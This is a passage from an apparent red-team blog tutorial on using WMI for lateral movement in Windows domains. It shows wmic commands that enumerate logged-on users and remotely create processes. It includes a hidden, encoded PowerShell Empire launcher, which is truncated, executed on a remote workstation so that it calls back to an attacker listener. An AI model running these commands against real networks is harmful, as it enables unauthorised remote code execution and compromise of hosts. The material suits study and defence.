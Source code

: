 ```
wmic /node:ordws01 path win32_loggedonuser get antecedent
```

![wmic logged on](/images/2016/04/wmic_loggedon.png)

`wmic` can even read nodes from a text file and execute the command on all of them. If you have a text file of workstations:

```
wmic /node:@workstations.txt path win32_loggedonuser get antecedent
```

The above examples barely scratch the surface of what WMI is capable of. Not only can you query for all sorts of information, you also have the ability to modify settings and create new objects. For example, you can even change user's passwords via WMI.

Fortunately, a lot of really smart people have wrapped up the best features of WMI for attackers into extremely useful PowerShell scripts. These types of queries are at the heart of a lot of the reconnaissance tools you see included in frameworks like [Nishang](https://github.com/samratashok/nishang) and [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

### WMI Process Create
Now we get to one of the "best" features of WMI - the fact that it can be used to remotely execute code!

The [Win32_Process](https://msdn.microsoft.com/en-us/library/windows/desktop/aa394372(v=vs.85).aspx) class can be called via WMI to query, modify, terminate, and *create* running processes.

As a quick example, here's a command to launch "calc.exe" on a local machine via a WMI statement:

![wmic process create local](/images/2016/04/wmic_calc.png)

The command returns the ProcessID and the ReturnValue (0 meaning no errors)

By specifying `/node` it's incredibly easy to remotely create processes and execute commands. In the last post I demonstrated launching Meterpreter from an `sc create` command with Metasploit's web_delivery module. To switch it up, let's launch a PowerShell Empire agent this time. First, generate the command string to execute using the "launcher" stager in Empire:

```
powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...
```

And now from Windows, we'll remotely create a process over WMI to execute that string:

```
wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**"
```

![wmic empire](/images/2016/04/wmic_empire.png)

We see it executed successfully (ReturnValue = 0). And a second later our Empire listener catches it. Note the process ID is the same as WMI returned:

![empire listener](/images/2016/04/empire_listener.png)
